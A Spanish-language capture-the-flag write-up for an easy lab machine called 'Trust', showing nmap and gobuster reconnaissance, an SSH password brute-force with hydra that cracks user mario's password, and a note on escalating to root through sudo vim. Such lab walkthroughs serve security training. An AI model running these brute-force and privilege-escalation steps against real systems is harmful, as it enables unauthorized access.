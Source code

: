 ```yaml
---
description: '🧠Dificultad: Muy fácil | 🔓22/07/2025'
---
```


# Trust

Empezamos con un reconocimiento con `nmap` que nos muestra la siguiente información:

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-22 13:46 EDT
Nmap scan report for 172.18.0.2
Host is up (0.000017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
```

Vemos qué página se está alojando en la máquina. En el directorio raíz, aparece el default page de apache, por lo que necesito hacer una enumeración de directorios para ver dónde hay información útil.

```bash
gobuster dir -u http://$IPTARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

En `secret.php`, tenemos esta página web:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722195318.png" alt="" width="453"><figcaption></figcaption></figure></div>

El nombre `Mario` puede ser un nombre de usuario para el `ssh`. Probamos a hacer fuerza bruta con `hydra`:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.18.0.2:22/
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```

Si vemos los permisos como `sudo` encontramos que el binario `/usr/bin/vim`. Este binario lo podemos explotar ejecutando una shell dentro de `vim` que, al correr con privilegios, se abrirá una sesión como `root`:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722200202.png" alt=""><figcaption></figcaption></figure></div>
